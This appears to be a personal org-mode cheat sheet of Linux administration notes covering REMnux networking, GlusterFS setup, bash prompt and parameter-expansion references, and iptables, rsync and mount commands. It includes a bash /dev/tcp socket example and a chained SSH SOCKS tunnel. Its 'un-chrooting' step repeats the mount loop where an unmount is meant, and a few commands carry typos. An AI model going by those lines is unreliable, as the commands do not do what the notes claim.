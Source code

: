 * MALWARE
** REMNUX
*** Networking
    /etc/network/interfaces

    auto eth0
    	iface eth0 inet static
	address 10.0.0.5
	netmask 255.255.255.0
	network 10.0.0.0
	gateway 10.0.0.1

    auto eth0:0
	iface eth0:0 inet static
	address 10.0.0.6
	netmask 255.255.255.0
	network 10.0.0.0
	#gateway 10.0.0.1

** Kali


* GlusterFS
** Install
   # yum install glusterfs-3.3.0-1.el6.x86_64.rpm
                 glusterfs-fuse-3.3.0-1.el6.x86_64.rpm
		 glusterfs-geo-replication-3.3.0-1.el6.x86_64.rpm
		 glusterfs-server-3.3.0-1.el6.x86_64.rpm

   # ./configure --with-config=user
   # make rpm-utils rpm-dkms
   # make rpm

** Starting GlusterFS service
   # /etc/init.d/glusterd start
   # /etc/init.d/glusterd stop

   CentOS
   # chkconfig glusterd on

   Debian
   # update-rc.d glusterd defaults

   # echo "glusterd" >> /etc/rc.local

** Create Trusted Storage Pool
   # gluster peer probe SERVER
   # gluster peer status

** Create GlusterFS Volumes

    Distributed - Distributes files throughout the cluster. For more information, see Configuring Distributed Volumes.
    Distributed Replicated - Replicates data across two or more nodes in the cluster. For more information, see Configuring Distributed Replicated Volumes.
    Distributed Striped - Stripes files across multiple nodes in the cluster. For more information, see Configuring Distributed Striped Volumes.

    #


** Firewall Rules

    24007 – Gluster Daemon
    24008 – Management
    24009 and greater (GlusterFS versions less than 3.4) OR
    49152 (GlusterFS versions 3.4 and later) – Each brick for every volume on your host requires it’s own port. For every new brick, one new port will be used starting at 24009 for GlusterFS versions below 3.4 and 49152 for version 3.4 and above. If you have one volume with two bricks, you will need to open 24009 – 24010 (or 49152 – 49153).
    38465 – 38467 – this is required if you by the Gluster NFS service.

    The following ports are TCP and UDP:

    111 – portmapper

    # iptables
    iptables -A RH-Firewall-1-INPUT -m state --state NEW -m tcp -p tcp --dport 24007:24017 -j ACCEPT
    iptables -A RH-Firewall-1-INPUT -m state --state NEW -m tcp -p tcp --dport 111 -j ACCEPT
    iptables -A RH-Firewall-1-INPUT -m state --state NEW -m udp -p udp --dport 111 -j ACCEPT
    service iptables save
    service iptables restart


** geo-replication
   # Geo-replication provides a continuous, asynchronous, and incremental replication service from one site to the other
   # Uses Master-Slave

   Master - A GlusterFS volume
   Slave - Local directory (ssh://root@remote-host:/path/)
           A GlusterFS volume (ssh://root@remote-host:gluster://localhost:volname)

   # Create key
   ssh-keygen -f /var/lib/glusterd/geo-replication/secret.pem

** geo-replication distributed

** replication

** replication distributed
   # gluster volume create NEW-VOLNAME [replica COUNT] [transport tcp | rdma | tcp,rdma] NEW-BRICK


** Wiki
*** Replica
    The replica of any volume has nothing to do with nodes, but everything with bricks. We recommend one brick per node, but that's not a hard requirement. So a replica 2 with 6 "bricks" will mean that the bricks will form replica group where each group will have 2 bricks(replica count). Since you have 6 bricks, you will have 3 such groups. So now if you look at that volume its a distribute-replicate volume, where there are 3 distribute sub-volumes, amogst which data will be divided, and each distribute sub-volume is actually a replica group consisiting of 2 bricks, amogst which the data will be replicated.


** Errors
   # gluster peer probe: failed: Probe returned with unknown errno 107
   In any case, it is a network problem

   # GlusterFS: {path} or a prefix of it is already part of a volume
   setfattr -x trusted.glusterfs.volume-id $brick_path
   setfattr -x trusted.gfid $brick_path
   rm -rf $brick_path/.glusterfs



* BASH
** BASH : -x
   Debug

   set +x
   set -x

** BASH : .bashrc

   # Setting term for emacs TRAMP

   Make sure The variable tramp-terminal-type is set to "dumb"

   M-x customize-variable RET tramp-terminal-type

   case "$TERM" in
   "dumb")
   PS1="> "
   ;;
   xterm*|rxvt*|eterm*|screen*)
   # PS1="my fancy multi-line prompt > "
   ;;
   *)
   PS1="> "
   ;;
   esac

** BASH : Colors


printf "[ \e[0;32m10.25.53.${i}\e[0m ] "
start: \e[0;32m		<= color
end:   \e[0m		<= end


\e[1m		# Bold
\e[2m		# Dim
\e[4m		# Underlined
\e[5m		# Blink
\e[7m		# inverted
\e[8m		# Hidden


\e[39m		# Default
\e[30m		# Black
\e[31m		# Red
\e[32m		# Green
\e[33m		# Yellow
\e[34m		# Blue
\e[35mm		# agenta
\e[36m		# Cyan
\e[37m		# Light gray
\e[90m		# Dark gray
\e[91m		# Light red
\e[92m		# Light green
\e[93m		# Light yellow
\e[94m		# Light blue
\e[95m		# Light magenta
\e[96m		# Light cyan
\e[97m		# White




# show a bunch of colors in the prompt

T='gYw'   # The test text

echo -e "\n                 40m     41m     42m     43m\
     44m     45m     46m     47m";

for FGs in '    m' '   1m' '  30m' '1;30m' '  31m' '1;31m' '  32m' \
           '1;32m' '  33m' '1;33m' '  34m' '1;34m' '  35m' '1;35m' \
           '  36m' '1;36m' '  37m' '1;37m';
  do FG=${FGs// /}
  echo -en " $FGs \033[$FG  $T  "
  for BG in 40m 41m 42m 43m 44m 45m 46m 47m;
    do echo -en "$EINS \033[$FG\033[$BG  $T  \033[0m";
  done
  echo;
done
echo -e "\n                 40m     41m     42m     43m\
     44m     45m     46m     47m";


# some function
function elite
{

local GRAY="\[\033[1;30m\]"
local LIGHT_GRAY="\[\033[0;37m\]"
local CYAN="\[\033[0;36m\]"
local LIGHT_CYAN="\[\033[1;36m\]"
local NO_COLOUR="\[\033[0m\]"

case $TERM in
    xterm*|rxvt*)
        local TITLEBAR='\[\033]0;\u@\h:\w\007\]'
        ;;
    *)
        local TITLEBAR=""
        ;;
esac

local temp=$(tty)
local GRAD1=${temp:5}
PS1="$TITLEBAR\
$GRAY-$CYAN-$LIGHT_CYAN(\
$CYAN\u$GRAY@$CYAN\h\
$LIGHT_CYAN)$CYAN-$LIGHT_CYAN(\
$CYAN\#$GRAY/$CYAN$GRAD1\
$LIGHT_CYAN)$CYAN-$LIGHT_CYAN(\
$CYAN\$(date +%H%M)$GRAY/$CYAN\$(date +%d-%b-%y)\
$LIGHT_CYAN)$CYAN-$GRAY-\
$LIGHT_GRAY\n\
$GRAY-$CYAN-$LIGHT_CYAN(\
$CYAN\$$GRAY:$CYAN\w\
$LIGHT_CYAN)$CYAN-$GRAY-$LIGHT_GRAY "
PS2="$LIGHT_CYAN-$CYAN-$GRAY-$NO_COLOUR "
}

** BASH : Export PS1,PS2,PS3,PS4,PROMPT_COMMAND
   http://www.thegeekstuff.com/2008/09/bash-shell-take-control-of-ps1-ps2-ps3-ps4-and-prompt_command/

   export PS1="/u@/h /w> "


   \u - Username
   \h - Hostname
   \w - Full pathname of current directory. Please note that when you are in the home directory, this will display only ~ as shown above
   \W - Current directory


   The default bash shells PS1-4 and PROMPT_COMMAND

   PS1 - Default interaction prompt
   PS2 - Continuation interactive prompt
   PS3 - Prompt used by "select" inside shell script
   PS4 - Used by "set -x" to prefix tracing output
   PROMPT_COMMAND - Bash shell executes the content of PROMPT_COMMAND just before displaying the PS1 variable!!!
       export PROMPT_COMMAND="echo -n [$(date +%k:%m:%S)]"
       [22:08:51]ramesh@dev-db ~>

** BASH : function
   main "$@"		# runs main() with all args

** BASH : history reverse search
   ^R

** BASH : io redirection
   bad_command >>filename 2>&1

** BASH : Parameter Expansion
${parameter:-word}
    If parameter is unset or null, the expansion of word is substituted. Otherwise, the value of parameter is substituted.

${parameter:=word}
    If parameter is unset or null, the expansion of word is assigned to parameter. The value of parameter is then substituted. Positional parameters and special parameters may not be assigned to in this way.

${parameter:?word}
    If parameter is null or unset, the expansion of word (or a message to that effect if word is not present) is written to the standard error and the shell, if it is not interactive, exits. Otherwise, the value of parameter is substituted.

${parameter:+word}
    If parameter is null or unset, nothing is substituted, otherwise the expansion of word is substituted.

${parameter:offset}
${parameter:offset:length}
    Expands to up to length characters of parameter starting at the character specified by offset. If length is omitted, expands to the substring of parameter starting at the character specified by offset. length and offset are arithmetic expressions (see section 6.5 Shell Arithmetic). This is referred to as Substring Expansion.

    If offset evaluates to a number less than zero, the value is used as an offset from the end of the value of parameter. If length evaluates to a number less than zero, and parameter is not `@' and not an indexed or associative array, it is interpreted as an offset from the end of the value of parameter rather than a number of characters, and the expansion is the characters between the two offsets. If parameter is `@', the result is length positional parameters beginning at offset. If parameter is an indexed array name subscripted by `@' or `*', the result is the length members of the array beginning with ${parameter[offset]}. A negative offset is taken relative to one greater than the maximum index of the specified array. Substring expansion applied to an associative array produces undefined results.

    Note that a negative offset must be separated from the colon by at least one space to avoid being confused with the `:-' expansion. Substring indexing is zero-based unless the positional parameters are used, in which case the indexing starts at 1 by default. If offset is 0, and the positional parameters are used, $@ is prefixed to the list.

${!prefix*}
${!prefix@}
    Expands to the names of variables whose names begin with prefix, separated by the first character of the IFS special variable. When `@' is used and the expansion appears within double quotes, each variable name expands to a separate word.

${!name[@]}
${!name[*]}
    If name is an array variable, expands to the list of array indices (keys) assigned in name. If name is not an array, expands to 0 if name is set and null otherwise. When `@' is used and the expansion appears within double quotes, each key expands to a separate word.

${#parameter}
    The length in characters of the expanded value of parameter is substituted. If parameter is `*' or `@', the value substituted is the number of positional parameters. If parameter is an array name subscripted by `*' or `@', the value substituted is the number of elements in the array.

${parameter#word}
${parameter##word}
    The word is expanded to produce a pattern just as in filename expansion (see section 3.5.8 Filename Expansion). If the pattern matches the beginning of the expanded value of parameter, then the result of the expansion is the expanded value of parameter with the shortest matching pattern (the `#' case) or the longest matching pattern (the `##' case) deleted. If parameter is `@' or `*', the pattern removal operation is applied to each positional parameter in turn, and the expansion is the resultant list. If parameter is an array variable subscripted with `@' or `*', the pattern removal operation is applied to each member of the array in turn, and the expansion is the resultant list.

${parameter%word}
${parameter%%word}
    The word is expanded to produce a pattern just as in filename expansion. If the pattern matches a trailing portion of the expanded value of parameter, then the result of the expansion is the value of parameter with the shortest matching pattern (the `%' case) or the longest matching pattern (the `%%' case) deleted. If parameter is `@' or `*', the pattern removal operation is applied to each positional parameter in turn, and the expansion is the resultant list. If parameter is an array variable subscripted with `@' or `*', the pattern removal operation is applied to each member of the array in turn, and the expansion is the resultant list.

${parameter/pattern/string}

    The pattern is expanded to produce a pattern just as in filename expansion. Parameter is expanded and the longest match of pattern against its value is replaced with string. If pattern begins with `/', all matches of pattern are replaced with string. Normally only the first match is replaced. If pattern begins with `#', it must match at the beginning of the expanded value of parameter. If pattern begins with `%', it must match at the end of the expanded value of parameter. If string is null, matches of pattern are deleted and the / following pattern may be omitted. If parameter is `@' or `*', the substitution operation is applied to each positional parameter in turn, and the expansion is the resultant list. If parameter is an array variable subscripted with `@' or `*', the substitution operation is applied to each member of the array in turn, and the expansion is the resultant list.

${parameter^pattern}
${parameter^^pattern}
${parameter,pattern}
${parameter,,pattern}
    This expansion modifies the case of alphabetic characters in parameter. The pattern is expanded to produce a pattern just as in filename expansion. The `^' operator converts lowercase letters matching pattern to uppercase; the `,' operator converts matching uppercase letters to lowercase. The `^^' and `,,' expansions convert each matched character in the expanded value; the `^' and `,' expansions match and convert only the first character in the expanded value. If pattern is omitted, it is treated like a `?', which matches every character. If parameter is `@' or `*', the case modification operation is applied to each positional parameter in turn, and the expansion is the resultant list. If parameter is an array variable subscripted with `@' or `*', the case modification operation is applied to each member of the array in turn, and the expansion is the resultant list.

** BASH : Process Substitution
Process substitution is supported on systems that support named pipes (FIFOs) or the /dev/fd method of naming open files. It takes the form of

<(list)

or

>(list)

The process list is run with its input or output connected to a FIFO or some file in /dev/fd. The name of this file is passed as an argument to the current command as the result of the expansion. If the >(list) form is used, writing to the file will provide input for list. If the <(list) form is used, the file passed as an argument should be read to obtain the output of list. Note that no space may appear between the < or > and the left parenthesis, otherwise the construct would be interpreted as a redirection.

When available, process substitution is performed simultaneously with parameter and variable expansion, command substitution, and arithmetic expansion.

** BASH : Socket Programming

   Creating Socket
   exec 3<>/dev/tcp/192.168.1.2/888

   Write to Socket
   echo -n "Message" >&3
   printf "Message" >&3

   View Socket
   cat <&3

   Closing Socket File Handle
   exec 3>/dev/null

** BASH : String Operations
   foo=bar
   a='$foo' # echo $a => $foo
   a="$foo" # echo $a => bar


   Table B-5. String Operations

   | Expression                              | Meaning                                                                                                                            |
   |-----------------------------------------+------------------------------------------------------------------------------------------------------------------------------------|
   | ${#string}                              | Length of $string                                                                                                                  |
   |                                         |                                                                                                                                    |
   | ${string:position}                      | Extract substring from $string at $position                                                                                        |
   | ${string:position:length}               | Extract $length characters substring from $string at $position [zero-indexed, first character is at position 0]                    |
   |                                         |                                                                                                                                    |
   | ${string#substring}                     | Strip shortest match of $substring from front of $string                                                                           |
   | ${string##substring}                    | Strip longest match of $substring from front of $string                                                                            |
   | ${string%substring}                     | Strip shortest match of $substring from back of $string                                                                            |
   | ${string%%substring}                    | Strip longest match of $substring from back of $string                                                                             |
   |                                         |                                                                                                                                    |
   | ${string/substring/replacement}         | Replace first match of $substring with $replacement                                                                                |
   | ${string//substring/replacement}        | Replace all matches of $substring with $replacement                                                                                |
   | ${string/#substring/replacement}        | If $substring matches front end of $string, substitute $replacement for $substring                                                 |
   | ${string/%substring/replacement}        | If $substring matches back end of $string, substitute $replacement for $substring                                                  |
   |                                         |                                                                                                                                    |
   | expr match "$string" '$substring'       | Length of matching $substring* at beginning of $string                                                                             |
   | expr "$string" : '$substring'           | Length of matching $substring* at beginning of $string                                                                             |
   | expr index "$string" $substring         | Numerical position in $string of first character in $substring* that matches [0 if no match, first character counts as position 1] |
   | expr substr $string $position $length   | Extract $length characters from $string starting at $position [0 if no match, first character counts as position 1]                |
   | expr match "$string" '\($substring\)'   | Extract $substring*, searching from beginning of $string                                                                           |
   | expr "$string" : '\($substring\)'       | Extract $substring* , searching from beginning of $string                                                                          |
   | expr match "$string" '.*\($substring\)' | Extract $substring*, searching from end of $string                                                                                 |
   | expr "$string" : '.*\($substring\)'     | Extract $substring*, searching from end of $string                                                                                 |

** BASH : Tilde Expansion
~
    The value of $HOME
~/foo
    `$HOME/foo'

~fred/foo
    The subdirectory foo of the home directory of the user fred

~+/foo
    `$PWD/foo'

~-/foo
    `${OLDPWD-'~-'}/foo'

~N
    The string that would be displayed by `dirs +N'

~+N
    The string that would be displayed by `dirs +N'

~-N
    The string that would be displayed by `dirs -N'

** BASH : ulimit
   Provides  control over the resources available to the shell and to processes started by it, on systems that allow such control.  The -H and -S options specify that
   the hard or soft limit is set for the given resource.  A hard limit cannot be increased by a non-root user once it is set; a soft limit may be increased up to  the
   value  of  the hard limit.  If neither -H nor -S is specified, both the soft and hard limits are set.  The value of limit can be a number in the unit specified for
   the resource or one of the special values hard, soft, or unlimited, which stand for the current hard limit, the current soft limit, and no limit, respectively.  If
   limit  is  omitted,  the  current value of the soft limit of the resource is printed, unless the -H option is given.  When more than one resource is specified, the
   limit name and unit are printed before the value.  Other options are interpreted as follows:
   -a     All current limits are reported
   -b     The maximum socket buffer size
   -c     The maximum size of core files created
   -d     The maximum size of a process's data segment
   -e     The maximum scheduling priority ("nice")
   -f     The maximum size of files written by the shell and its children
   -i     The maximum number of pending signals
   -l     The maximum size that may be locked into memory
   -m     The maximum resident set size (many systems do not honor this limit)
   -n     The maximum number of open file descriptors (most systems do not allow this value to be set)
   -p     The pipe size in 512-byte blocks (this may not be set)
   -q     The maximum number of bytes in POSIX message queues
   -r     The maximum real-time scheduling priority
   -s     The maximum stack size
   -t     The maximum amount of cpu time in seconds
   -u     The maximum number of processes available to a single user
   -v     The maximum amount of virtual memory available to the shell
   -x     The maximum number of file locks
   -T     The maximum number of threads

   If limit is given, it is the new value of the specified resource (the -a option is display only).  If no option is given,  then  -f  is  assumed.   Values  are  in
   1024-byte  increments, except for -t, which is in seconds, -p, which is in units of 512-byte blocks, and -T, -b, -n, and -u, which are unscaled values.  The return
   status is 0 unless an invalid option or argument is supplied, or an error occurs while setting a new limit.

** BASH : VAR+=('')
   # Add additional value to variable

* bin
** ssh
   You => server => server (Dynamic SOCKS)

   ssh root@${1} -L 8080:localhost:8080 -L 22:localhost:50022 -L5900:localhost:55900 -L 8888:localhost:8888 ${3} "ssh user@${2} -p 50022 -D 8080 -L 50022:${2}:50022 -L 55900:${2}:55900 -L 8888:192.168.1.1:443 -N ${3}"

** blkid
   # list block uuid

** blkls
   # Lists contents of deleted (unallocated space) disk blocks.
   # good for file recovery
   # copying partitions by offset shown in the partition table
   http://scx030c064.blogspot.com/2013/02/sleuthkit-file-recovery.html

   blkls imagefile.dd > imagefile.blkls

*** crontab

# Minute   Hour   Day of Month       Month          Day of Week        Command
# (0-59)  (0-23)     (1-31)    (1-12 or Jan-Dec)  (0-6 or Sun-Sat)
    0        2          12             *               0,6           /usr/bin/find

Instead of the first five fields, one of eight special strings may appear:

string         meaning
------         -------
@reboot        Run once, at startup.
@yearly        Run once a year, "0 0 1 1 *".
@annually      (same as @yearly)
@monthly       Run once a month, "0 0 1 * *".
@weekly        Run once a week, "0 0 * * 0".
@daily         Run once a day, "0 0 * * *".
@midnight      (same as @daily)
@hourly        Run once an hour, "0 * * * *".

# Example crontab

 SHELL=/bin/bash
 PATH=/sbin:/bin:/usr/sbin:/usr/bin
 MAILTO=root
 HOME=/
 # run-parts
 01 * * * * root run-parts /etc/cron.hourly
 02 4 * * * root run-parts /etc/cron.daily
 22 4 * * 0 root run-parts /etc/cron.weekly
 42 4 1 * * root run-parts /etc/cron.monthly

*** curl
    -d, --data <data>		# post data
    --data-ascii, --data-binary, --data-urlencode

    -u, --user <user:password;options>

*** cut
    netstat -atnlp|grep ssh[^a-z]|awk '{print $7}'|uniq|cut -c 1-4

*** dd
    dd if=/dev/sdaX of=/path/to/MBR.img bs=512 count=1

    Only 446 bytes of the MBR contain boot code, the next 64 contain the partition table.
    If you do not want to overwrite your partition table when restoring, it is strongly
    advised to backup only the MBR boot code.

*** chkconfig
    The chkconfig utility is a command line tool that allows you to specify in which runlevel to start a selected service

    chkconfig sshd on			# enable a service in runlevels 2, 3, 4, and 5
    chkconfig sshd on --level 35		# enable a service in runlevels 3 and 5
    chkconfig abrtd off --level 24	# disable the abrtd in runlevels 2 and 4

*** chmod
    Setting STICKY bit
    + On a directory --> Only file owners can delete files put in folder
      chmod 1777 public (chmod +t public)
      drwxrwxrwt

    Setting SUID (4), SGID (2)

      chmod 4777 --> set only SUID (user)
      chmod 2777 --> set only SGID (group)

    + On a directory --> File is instantly set to owner and group of folder
      chmod 6777 drop_box (chmod u+s,g+s drop_box)
      drwsrwsrwx   tclark   authors   drop_box
      all files dropped in here will be owned by user, tclark, and group, authors.

    + On executable files
      Allow the executable to be run as the file owner (or group) of the executable rather than as the user logged into the system.

*** chroot
    System devices to mount -o bind: sys,proc,dev,dev/pts
    for i in /dev /dev/pts /sys /proc; do mount -o bind $i /mnt$i; done

    # un-chrooting
    sync					# sync first
    for i in /dev /dev/pts /sys /proc; do mount -o bind $i /mnt$i; done

*** column
    mount | column -t			# puts everything into a nice table layout

** awk
   -F\, -F\; -F\|		# Delimiter
   FS				# Regular expression delimter
   $NF				# Number of fields in the current record

   Example:
   $ awk -F ':' '$3>=100 && $NF ~ /\/bin\/sh/' passwd.txt
   libuuid:x:100:101::/var/lib/libuuid:/bin/sh

   ps -eaf | awk '{ ++cnt } END { print cnt }'	# count number of lines

** du
   du -d 2 | sort -h	# du with depth of 2; sort human-numerically (K,M,G)

** fc
   # re-execute commands from history
   fc [first] [last]

** find
   find . -mtime -1 -exec ls -la {} \;

	 -mmin n
	       File's data was last modified n minutes ago.

	 -mtime n
	       File's  data was last modified n*24 hours ago.  See the comments
	       for -atime to understand how rounding affects the interpretation
	       of file modification times.

	 -newer file
	       File was modified more recently than file.  If file  is  a  sym-
	       bolic  link and the -H option or the -L option is in effect, the
	       modification time of the file it points to is always used.
	 -regex pattern

   # Multiple exec
   $ find 101 case -iname "*.gz" \( -exec printf "{}\n" \; -exec zcat {} \; \) | grep REST
   $ find * -type f -exec zgrep -E -i "esper" {} \; -exec printf "FILE {}" \;

   # Using pipe
   $ find . -type f -name "*gz" -exec sh -c 'file "{}" | grep compressed >/dev/null && echo compressed || echo no' \;

** hdparm
   hdparm --user-master u --security-unlock p /dev/sdb(c)	# unlock a drive
  								 # not sure if this works

** id
   id -u -n	# show just user name
** ifconfig
   eth0 NIC IP 192.168.1.5
   eth0:0 first NIC alias: 192.168.1.6

   ifconfig <interface> dhcp
   ifconfig <interface>

** inode
   ls -i
   stat

   find . -inum [inode-number] -exec rm -i {} \;

** ip
   ip addr .............show all devices
   ip addr change dev <dev> <newAddr>
   ip address add <newAddr> dev <dev> .......Create IP alias
   ip addr show <dev>
   ip link set dev <dev> name <newName>
   ip link set dev <dev> up/down

   ip route list
   ip route add 0/0 via <gateway> dev <dev>
   ip route add default via <gateway> dev <dev>
   ip route show {dev|proto|scope|src}

   Scope........Description
   global.......valid everywhere
   site.........valid only within this site (IPv6)
   link.........valid only on this device
   host.........valid only inside this hose (machine)

   Proto........Description
   redirect.....the route was installed to an ICMP redirect
   kernel.......the route was insatlled by the kernel during autoconfig
   boot.........the route was installed during the bootup sequence. If a routing daemon starts, it will purge all of them.
   static.......the route was installed by the administrator to override dynamic routing. Routing daemon will responct them and, probably, even advertise them to its peers.
   ra...........the route was installed by the Router Discovery protocol.

   Example commands:
   ip r add 192.168.1.0/24 dev eth0 proto statis scope link src 192.168.1.4 metric 202
   ip r add 0/0 via 192.168.1.1 dev eth0 metric 202

   OR

   ip r a 192.168.1.0/24 dev eth0
   ip r a 0/0 via 192.168.1.1

   Example output:
   default via 192.168.1.1 dev eth0 metric 202
   192.168.1.0/24 dev eth0 proto kernel scope link src 192.168.1.4 metric 202

** iptables
   iptables [-t table] {-A|-D} chain rule-specification

   -n, --numeric
   -L, --list
   -S, --list-rules
   --line-numbers

   -F, --flush CHAIN
   -Z, --zero CHAIN.........Zero the packet and byte counters in all chains.

   -N, --new-chain CHAIN............Create user-defined chain
   -X, --delete-chain CHAIN.........Delete user-defined chain
   -E OLD NEW.......................Rename user-defined chain

   -P, --policy CHAIN TARGET........Set the policy for the chain.
                      ACCEPT........Let the packet through
		      DROP..........Drop the packet to the floor
		      QUEUE.........Pass the packet to userspace
		      RETURN........Stop traversing this chain and resume at the
		                    next rule in the previous (calling) chain.

		                    If the end of a built-in chain is reached or a
				    rule in a built-in chain with target RETURN os
				    matched, the target specified by the chain policy
				    determines the fate of the packet.

   -A, --append CHAIN RULE
   -D, --delete CHAIN RULE
               	CHAIN RULENUM
   -I, --insert CHAIN [RULENUM] RULE
   -R, --replace CHAIN RULENUM RULE

   -p tcp,udp,udplite,icmp,asp,ah,sctp,all
      --sport, --source-port
      --dport, --destination-port
   -s, --source address[/mask]
   -d, --destination address[/mask]

   -j, --jump TARGET
              MASQUERADE......nat table only, POSTROUTING chain
	                      changes the packet source to address of interface it goes out from
              REDIRECT........nat table only, PREROUTING and OUTPUT chains, aka DNAT
	                      changes dst IP to 127.0.0.1
                              -p {tcp|udp} --to-ports

			      Example:
			      iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 15000
			      iptables -t nat -A PREROUTING -i eth1 -p tcp --dport 80 -j REDIRECT --to-port 3128
			         # Configure Squid to know it's a transparent proxy

              SNAT............nat table only, POSTROUTING chain
	                      changes source address to ipaddr
			      --to-source ipaddr[-ipaddr][:port[-port]]

			      Example:
			      Assuming eth1 is internet card, and external IP 123.12.23.43 and internal card is eth0
			      iptables -t nat -A POSTROUTING -o eth1 -j SNAT --to-source 123.12.23.43

   -i, --in-interface eth0
   -o, --out-interface eth0

   -m............Match extensions. More things to match to
                 -m tcp --sport --source-port --dport --destination-port --syn
	               --tcp-flags examine must-be-set
		                 SYN,ACK,FIN,RST,URG,PSH,ALL,NONE

   Tables:
   filter........Default with built in CHAINS
                 INPUT..........packets destined to local sockets
		 FORWARD........packets being routed through the box
		 OUTPUT.........for locally-generated packets
   nat...........When a packet that creates a new connection is encountered.
                 PREROUTING.....for altering packets as soon as they come in
		 OUTPUT.........locally-generated packets before routing
		 POSTROUTING....as they are about to go out
   mangle........Used for specialized packet alteration
                 PREROUTING.....incoming packets before routing
		 INPUT..........packets coming into the box itself
		 FORWARD........packets being routed through the box
		 OUTPUT.........locally-generated packets before routing
		 POSTROUTING....packets as they are about to go out
   raw...........Used for configuring exemptions from connection tracking
                 I don't think I'll need this

   Targets:
   ACCEPT, DROP, QUEUE, RETURN

   Chains:
   PREROUTING....Just as the packet comes in; this means anything else on the Linux box
                 itself (routing, packet filtering) will see the packet going to its
		 'real' destination. "-i" option can be used.
   POSTROUTING...Just before it is finally sent out; this is an important detail
                 since it means anything else on the Linux box itself (routing, packet
		 filtering) will see the packet unchanged. "-o" option can be used.

   iptables-save > fw.rules
   iptables-restore < fw.rules


   Example -S (--list-rules):
   -P INPUT DROP
   -P FORWARD ACCEPT
   -P OUTPUT ACCEPT
   -A INPUT -i lo -j ACCEPT
   -A INPUT -p icmp -m icmp --icmp-type 8 -j ACCEPT
   -A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
   -A INPUT -p tcp -m tcp --dport 22 -j ACCEPT
   -A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
   -A INPUT -s <ip_address>/32 -p tcp -m tcp --dport 443 -j ACCEPT
   -A INPUT -p tcp -m tcp --dport 443 -j DROP
   -A INPUT -p tcp -m tcp --dport 12320 -j ACCEPT
   -A INPUT -p tcp -m tcp --dport 12321 -j ACCEPT
   -A INPUT -j DROP

iptables-restore <<EOF
*filter
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [1472:250899]
-A INPUT -i lo -j ACCEPT
-A INPUT -p icmp -m icmp --icmp-type 8 -j ACCEPT
-A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
-A INPUT -j DROP
COMMIT
EOF

ip6tables-restore <<EOF
*filter
:INPUT DROP [409:61073]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [1:260]
COMMIT
EOF

   Example hex match:
     iptables --append INPUT --match string --algo kmp --hex-string '|f4 6d 04 25 b2 02 00 0a|' --jump ACCEPT

   Other Examples:
     iptables -A INPUT -p tcp --dport 80 -j ACCEPT
     iptables -A INPUT -p tcp --dport 443 -j ACCEPT
     iptables -A INPUT -p tcp --dport 9200 -j ACCEPT
     iptables -A INPUT -p tcp --dport 9300 -j ACCEPT

** less
   -N, --line-numbers

** lsmod
   # shows which loadable kernel modules are currently loaded
   # prints contents of the /proc/modules file

** mount
  Mounting dd image

# parted image001.dd

Model: Virtio Block Device (virtblk)
Disk /dev/vda: 25165824000B
Sector size (logical/physical): 512B/512B
Partition Table: msdos

Number  Start         End           Size          Type     File system     Flags
 2      1048576B      400556031B    399507456B    primary  ext4            boot
 3      400556032B    21165506559B  20764950528B  primary  ext4
 1      21165506560B  25164775423B  3999268864B   primary  linux-swap(v1)

# mount -o loop,ro,offset=400556032 image001.dd /mnt/rescue

** reset
   reset terminal when everything looks weird

** route
   route			# lists routes
   route add default gw <gateway IP>

** rpm
   rpm -vh		# print 50 hash marks as file is unpacked

   -i, --install	# install
   -U, --upgrade	# upgrade
   -F, --freshen	# freshen
   -e, --erase		# erase
   -qa			# query all installed packages
   -qlp <package>	# list files in package

** rsync
   -a				# equivalent to -rlptgoD
   --no-p, --no-perms		# no permissions
   --chmod=ugo=rwX		# change permissions from the sending side
  				 # --chmod=Du=rwx,Dg=rx,Do=rx,Fu=rw,Fg=r,Fo=r
   -e 'ssh'			# specify remote shell to use
   --delete-excluded		# also delete excluded files from dest dirs
   --delete-during		# improved deletion mode
   --delete-delay		# removed after transfer is complete
   --remove-source-files 	# remove source files
   --bwlimit=XX			# limit bandwidth in kilobytes
   --maxsize='100K'		# can use K M G; default K
   --minsize=XX			# min size
   --modify-window=N		# Windows FS (N=1 sec)
   -b --backup-dir=		#
   --suffix=''			# defaults to ~ without backup-dir

** run-parts
